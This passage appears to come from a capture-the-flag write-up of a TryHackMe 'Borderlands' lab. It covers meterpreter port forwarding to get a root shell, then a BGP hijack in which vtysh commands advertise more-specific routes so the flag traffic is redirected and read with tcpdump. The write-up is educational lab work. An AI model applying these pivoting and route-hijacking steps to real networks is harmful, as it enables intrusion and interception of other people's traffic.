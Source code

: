 #### Step 3: Port forward port 6200

Simply input the following command to port forward port 6200.

``` {.highlight}
meterpreter> portfwd add -l 6200 -p 6200 -r 172.16.1.128
```

#### Step 4: Re-exploitation

Re-exploit the port again and you will get a root shell from
172.16.1.128.

![root](/assets/images/THM/2020-08-13-borderlands/28.png)

Now, capture the flag

### Task 1-5 and 1-6: UDP and TCP flag

I would like to credit this task to Tsuki who give me so many hints on
solving this task. This task is almost similar to the [HTB
carrier](https://0xrick.github.io/hack-the-box/carrier/) where you need
to play around with the BGP configure file.

First off, we are going to launch the BGP config shell with the
following command.

``` {.highlight}
vtysh
```

![config file](/assets/images/THM/2020-08-13-borderlands/29.png)

Our main objective is to hijack the sever with flag and re-route the
flag packet to us. [This article provides a simplified
explanation](https://www.cloudflare.com/learning/security/glossary/bgp-hijacking/)
of BGP hijacking. Next, enter the BGP configuration mode with the
following command.

``` {.highlight}
router1.ctx.ctf# config terminal
```

We need to add a route to make sure the flag server route the packet to
us.

``` {.highlight}
router1.ctx.ctf(config)# router bgp 60001
router1.ctx.ctf(config)# network 172.16.2.0/25
router1.ctx.ctf(config)# network 172.16.3.0/25
router1.ctx.ctf(config)# end
router1.ctx.ctf# clear ip bgp *
```

Do a short check on the route.

![full config](/assets/images/THM/2020-08-13-borderlands/30.png)

It looks like all the traffics routes to us. If you finished with the
configuration, read the incoming packet with TCP dump.

``` {.highlight}
tcpdump -i eth0 -A
```

The flag will be redirected.
